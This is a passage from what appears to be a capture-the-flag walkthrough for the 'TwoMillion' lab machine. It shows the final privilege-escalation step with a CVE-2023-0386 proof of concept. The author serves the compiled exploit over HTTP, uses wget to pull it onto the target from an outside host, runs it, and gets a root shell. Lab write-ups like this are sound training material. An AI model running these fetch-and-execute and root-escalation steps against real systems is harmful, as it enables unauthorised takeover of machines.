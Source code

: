 ...
-rwxr-xr-x 1 niels niels 1140320 Jun 21 20:59 poc
...
(.venv) [niels@archbox CVE-2023-0386]$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

I then go to the attacking box again and download the exploit and run it:

```
admin@2million:/tmp/nscp$ wget 10.10.16.19:8000/poc
--2023-06-21 19:09:05--  http://10.10.16.19:8000/poc
Connecting to 10.10.16.19:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1140320 (1.1M) [application/octet-stream]
Saving to: ‘poc.1’

poc.1                      100%[======================================>]   1.09M   484KB/s    in 2.3s    

2023-06-21 19:09:08 (484 KB/s) - ‘poc.1’ saved [1140320/1140320]
admin@2million:/tmp/nscp$ chmod 700 poc
admin@2million:/tmp/nscp$ ./poc 
...
[+] poc.c:291 VULNERABLE
[+] poc.c:323 get shell
# id
uid=0(root) gid=0(root) groups=0(root),1000(admin)
```

And that's it!
